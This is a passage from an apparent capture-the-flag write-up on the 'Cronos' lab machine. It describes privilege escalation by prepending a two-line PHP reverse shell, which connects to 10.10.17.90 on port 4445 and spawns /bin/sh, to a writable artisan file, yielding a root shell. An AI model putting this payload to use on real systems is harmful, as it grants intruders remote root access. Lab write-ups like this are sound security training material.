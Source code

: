 ![Untitled](Cronos%20ba0eec374310446694a6b59047f66a60/Untitled%2023.png)

If we look at the permissions for artisan, we see that we are the owner of the file and we have rwx permissions:

![Untitled](Cronos%20ba0eec374310446694a6b59047f66a60/Untitled%2024.png)

To get artisan to spawn a shell, we can first set up another listener:

![Untitled](Cronos%20ba0eec374310446694a6b59047f66a60/Untitled%2025.png)

And then we can add these two lines to the start of the file:

```bash
$sock=fsockopen("10.10.17.90", 4445);
exec("/bin/sh -i <&3 >&3 2>&3");
```

Then we can wait on our listener for a root but limited shell:

![Untitled](Cronos%20ba0eec374310446694a6b59047f66a60/Untitled%2026.png)

After the same shell upgrade process, we have a fully interactive root shell:

![Untitled](Cronos%20ba0eec374310446694a6b59047f66a60/Untitled%2027.png)
